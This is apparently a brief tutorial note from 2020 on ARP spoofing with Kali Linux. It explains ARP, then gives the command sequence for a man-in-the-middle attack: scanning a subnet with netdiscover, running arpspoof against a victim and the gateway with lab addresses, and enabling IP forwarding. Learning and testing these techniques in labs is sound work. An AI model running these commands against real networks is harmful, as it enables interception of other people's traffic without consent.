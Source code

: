 ```yaml
---
title: "Kali Linux ARP Spoofing"
author: "Shanaka DeSoysa"
date: 2020-05-12T16:04:37
description: "Kali Linux ARP Spoofing"
type: technical_note
draft: false
---
```


In computer networking, [ARP spoofing]('https://en.wikipedia.org/wiki/ARP_spoofing'), ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends (spoofed) Address Resolution Protocol (ARP) messages onto a local area network.


## ARP
The [Address Resolution Protocol](('https://en.wikipedia.org/wiki/Address_Resolution_Protocol')) (ARP) is a communication protocol used for discovering the link layer address, such as a MAC address, associated with a given internet layer address, typically an IPv4 address. 


Check ARP on Linux/Mac/Win.

```sh
arp -a
```

## Find Default Gateway
Check your default gateway:
```sh
ip route
```

## Scan the Network

-r is for range

```sh
netdiscover -r 10.0.2.0/24
```

## ARP Spoofing

```sh
arpspoof -i INTERFACE -t VICTIM_IP GATEWAY_IP

arpspoof -i INTERFACE -t GATEWAY_IP VICTIM_IP

```

```sh
arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
```

```sh
arpspoof -i eth0 -t 10.0.2.1 10.0.2.15
```

Make sure port forwarding is enabled, as described below.

### Check port forwarding
```sh
sysctl net.ipv4.ip_forward
```

### Enable port forwarding
```sh
sysctl -w net.ipv4.ip_forward=1
```

OR, if that doesn't work:

```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```

